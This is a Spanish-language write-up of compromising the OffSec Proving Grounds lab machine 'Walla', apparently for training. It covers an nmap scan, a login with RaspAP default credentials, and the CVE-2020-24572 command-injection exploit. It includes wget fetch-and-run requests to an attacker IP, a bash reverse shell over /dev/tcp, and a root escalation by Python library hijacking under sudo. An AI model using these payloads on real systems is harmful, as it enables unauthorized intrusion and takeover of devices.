

En este walkthrough, muestro cómo obtuve acceso completo a la máquina Walla de OffSec Proving Grounds.

## Objetivos de aprendizaje

- CVE-2020-24572
- Python Scripting + Abuso de SUDO

## Escaneo con Nmap

```bash
sudo nmap -sSCV -vvv -n -Pn -p- --min-rate 5000 192.168.73.97

<SNIP>

PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtTTLmNtp3zqxLNrL/geNhp8WLkauSPqJ7WY9404pchYQN7BUkpOeUGRNUAtrmwQ02tSIcXSIgaMkP9QYkcgpJ3LgukIrX8aICoFPX8n1PEgZhEryhHomgcWL99ER4uTm9+CXuG3plBp7fgNtacHGGG9tlIn9DqcWwRcsB0WuzZwOT8n0PEwggyMKmhA4LuKKn1933nCCgVFIJ1NLfr9fM+VA3ZwVB7IcPEMrXPRo9q3lZLJtB69biTSnNROXB1pf50LFUUOnuAQwBG+4Md5TK+zbuGuCtf6zB69b+th+XSiGAIO6USodt3DfTo6Vr9ZUEtQykoI2wVJ2ZkeTqzqD3
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKTe9nM9KOPFzCX46nVw5gPZi8A4pUJ54B+rw0ehE0PlTNyoAuHTnFwZNLsSPI2yXIve0UqQgs4PYXqhht5nc9A=
|   256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO2CS9VQ1hSSMPudUXJYiFxw7cD92ImmSovNLtyyGSGu
23/tcp    open  telnet     syn-ack ttl 63 Linux telnetd
25/tcp    open  smtp       syn-ack ttl 63 Postfix smtpd
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Issuer: commonName=walla
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T18:26:36
| Not valid after:  2030-09-15T18:26:36
| MD5:     097c bda1 76ab 9b73 c8ef 68ab 84e9 a055
| SHA-1:   6c4b fee3 0bd6 d910 2ef9 f81a 3a41 72d8 31bd baac
| SHA-256: ea72 ac55 6826 8056 f0b8 1aa5 c491 f700 9df3 a728 05fc 41f5 7025 6087 9d1c 46c1
| -----BEGIN CERTIFICATE-----
| MIICzTCCAbWgAwIBAgIUSjsFHwJii76XBfqWrgTLj7nupXgwDQYJKoZIhvcNAQEL
| BQAwEDEOMAwGA1UEAwwFd2FsbGEwHhcNMjAwOTE3MTgyNjM2WhcNMzAwOTE1MTgy
| NjM2WjAQMQ4wDAYDVQQDDAV3YWxsYTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
| AQoCggEBAOwqF+jjwFmrSmgMiDEP1C3Adi9w1nrHCw8pFunsf2BnG4tRF3Xj2blV
| d5+CaCqmsiADAjFGXNREudaCvYKvw9ctU83dKw8khjho9Q+vm6AEMgS78uQNhQp3
| uXFkQVboMxYZdtxGs2/JkE0S52qYXScSJWer8uEon7qAkLgRJ1gQQHlqZ44ekmdt
| wPaQIu5IYWIeMYiLHb3Ivvk6esj/01NpaNmTNyljF2LxdEJaRjYYEMPqvS2Z5Dzd
| QL+fIWkeINwvWl+J4rkZA5xnLnOo08BG4MtGHAi0b2+bJ4fGT4fnrgoXoG6D9vIN
| jcxFhgScgAiA+ifARtuoKjWMukDiChUCAwEAAaMfMB0wCQYDVR0TBAIwADAQBgNV
| HREECTAHggV3YWxsYTANBgkqhkiG9w0BAQsFAAOCAQEAmzn/Ujcmz5o+qRXzL2ZR
| 60yEhjRd3kRaU4im8917uvzt7tZ/ELIGbCEEaNfhNOvyqDAtRPZC7U1m94baUqr+
| 741Er3x+NPR8A0aNn4tYq6SnD66XNeVecQfplg6uTjVCChO1iEAFXo1ETUjP6WV6
| Am8XspbmjffTPLWei0uw+qXfOL9TFu8sIFbhr0+UmV6ZpXNc+yoqGUlKFUTcHye0
| OZHrz6yNf+hUnMWBY6wWUB5SlpT4Onrnm6SWBU7rAD3kvLAsmpQHI38x5NTAxRWZ
| m5NUiiBnSYTwXytEvzHdqgkNxKPQDKnfS8D9oeVFjtM22TNKI8ytVFV+SQ0plPA+
| tQ==
|_-----END CERTIFICATE-----
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped syn-ack ttl 63
422/tcp   open  ssh        syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtTTLmNtp3zqxLNrL/geNhp8WLkauSPqJ7WY9404pchYQN7BUkpOeUGRNUAtrmwQ02tSIcXSIgaMkP9QYkcgpJ3LgukIrX8aICoFPX8n1PEgZhEryhHomgcWL99ER4uTm9+CXuG3plBp7fgNtacHGGG9tlIn9DqcWwRcsB0WuzZwOT8n0PEwggyMKmhA4LuKKn1933nCCgVFIJ1NLfr9fM+VA3ZwVB7IcPEMrXPRo9q3lZLJtB69biTSnNROXB1pf50LFUUOnuAQwBG+4Md5TK+zbuGuCtf6zB69b+th+XSiGAIO6USodt3DfTo6Vr9ZUEtQykoI2wVJ2ZkeTqzqD3
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKTe9nM9KOPFzCX46nVw5gPZi8A4pUJ54B+rw0ehE0PlTNyoAuHTnFwZNLsSPI2yXIve0UqQgs4PYXqhht5nc9A=
|   256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO2CS9VQ1hSSMPudUXJYiFxw7cD92ImmSovNLtyyGSGu
8091/tcp  open  http       syn-ack ttl 63 lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B5F9F8F2263315029AD7A81420E6CC2D
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-server-header: lighttpd/1.4.53
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
42042/tcp open  ssh        syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtTTLmNtp3zqxLNrL/geNhp8WLkauSPqJ7WY9404pchYQN7BUkpOeUGRNUAtrmwQ02tSIcXSIgaMkP9QYkcgpJ3LgukIrX8aICoFPX8n1PEgZhEryhHomgcWL99ER4uTm9+CXuG3plBp7fgNtacHGGG9tlIn9DqcWwRcsB0WuzZwOT8n0PEwggyMKmhA4LuKKn1933nCCgVFIJ1NLfr9fM+VA3ZwVB7IcPEMrXPRo9q3lZLJtB69biTSnNROXB1pf50LFUUOnuAQwBG+4Md5TK+zbuGuCtf6zB69b+th+XSiGAIO6USodt3DfTo6Vr9ZUEtQykoI2wVJ2ZkeTqzqD3
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKTe9nM9KOPFzCX46nVw5gPZi8A4pUJ54B+rw0ehE0PlTNyoAuHTnFwZNLsSPI2yXIve0UqQgs4PYXqhht5nc9A=
|   256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO2CS9VQ1hSSMPudUXJYiFxw7cD92ImmSovNLtyyGSGu
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>

```

## Enumeración de servicios

### HTTP/8091

Tratando de navegar a `http://192.168.73.97:8091` nos sale un pop up de autenticación básica. He probado credenciales por defecto y no funcionaron.

En nuestro escaneo de nmap podemos ver `Basic realm=RaspAP`. Después de buscar `RaspAP default credentials` en Google ganamos acceso al servicio con las credenciales `admin:secret`.

Una vez dentro, pudimos enumerar en profundidad el servicio y al navegar a `About RaspAP` la página revela la versión utilizada (`RaspAP v2.5`).



## Explotación

Después de una búsqueda `raspap 2.5 exploit github` encontré [este](https://github.com/lb0x/cve-2020-24572) exploit.

Después de leer el exploit y probar comandos más simples, hice los siguientes cambios.

```json

<SNIP>

json_req_1 = {
              "jsonrpc":"2.0",
              "method":"run",
              "params":["NO_LOGIN",
                        {"user":"","hostname":"","path":""},
                        "wget 192.168.49.73/shell -O /tmp/shell"
                        ],
              "id":6
              }

json_req_2 = {
              "jsonrpc":"2.0",
              "method":"run",
              "params":["NO_LOGIN",
                        {"user":"","hostname":"","path":""},
                        "chmod +x /tmp/shell && /tmp/shell"
                        ],
              "id":6
              }

<SNIP>

```

> Nota: El segundo comando se ejecuta al presionar `<ENTER>` (Habiendo ya ejecutado el exploit).

Básicamente alojamos la reverse shell en nuestra máquina de atacante, la exfiltramos a la víctima usando `wget`, lo hacemos ejecutable y lo ejecutamos.

```bash
# Ejecutar exploit
python3 script.py 192.168.73.97 8091 192.168.49.73 80 secret

# HTTP hosting our reverse shell
python3 -m http.server

# Reverse shell listener
nc -nvlp 25
```

El archivo `shell` contiene lo siguiente.

```bash 
#!/bin/bash

bash -i >& /dev/tcp/192.168.49.73/25 0>&1 
```

## Post-explotación

El usuario **www-data** tiene permisos **SUDO** para ejecutar `/usr/bin/python /home/walter/wifi_reset.py`.

```bash
www-data@walla:/home/walter$ sudo -l
Matching Defaults entries for www-data on walla:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
```

Leyendo `/home/walter/wifi_reset.py` podemos ver que intenta importar `wificontroller` y no existe en el directorio del programa (que es el primer directorio en el que `python` intenta buscar). Así que creamos nuestra librería maliciosa y la damos permisos de ejecución (`chmod +x`).

```python
import os;

os.system("chmod +s /bin/bash")

```

La librería maliciosa activa el bit SUID en el binario `/bin/bash`.

```bash
www-data@walla:/home/walter$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
www-data@walla:/home/walter$ /bin/bash -p
bash-5.0# whoami
root
```

**Ya somos root**

## Proofs




```text
c95931d67acd2568e89fd8772707da7d
```





```text
88199a171fd1d3f81859830346505c25
```

